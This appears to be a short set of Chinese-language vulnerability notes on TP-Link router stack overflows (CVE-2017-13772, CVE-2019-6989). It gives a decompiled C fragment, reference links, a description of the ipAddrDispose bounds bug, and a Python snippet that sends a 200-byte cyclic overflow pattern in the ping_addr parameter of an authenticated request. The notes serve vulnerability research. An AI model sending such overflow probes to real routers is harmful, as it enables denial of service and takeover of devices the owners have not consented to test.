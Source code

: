 ```c
      iVar6 = iVar6 + 1;
    }
  }
```
测试包
```python
 test="AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AA" \
         "KAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"#200
    params={'ping_addr':test,
            'doType':'ping',
            'isNew':'new',
            'sendNum':'20',
            'pSize':'64',
            'overTime':'800',
            'trHops':'20'}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "close",
               "Referer": "%s"%url,
               "Cookie":  auth,
               "Upgrade-Insecure-Requests": "1"}
    resp=session.get(url,params=params,headers=headers)
```

https://fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/

# 940N  941ND
https://www.cvedetails.com/cve/CVE-2019-6989/


## CVE-2019-6989
- TP-LINK TL-WR940N:3 and TL-WR941ND:6
- 拒绝服务
- 代码执行
- 溢出

说明

由于ipAddrDispose函数检查边界不正确，TP-Link TL-WR940N容易受到基于堆栈的缓冲区溢出的影响。通过发送特制的ICMP回显请求数据包，经过身份验证的远程攻击者可能会溢出缓冲区，并以更高的特权在系统上执行任意代码。

参考

https://securityintelligence.com/buffer-overflow-vulnerability-in-tp-link-routers-can-allow-remote-attackers-to-take-control/
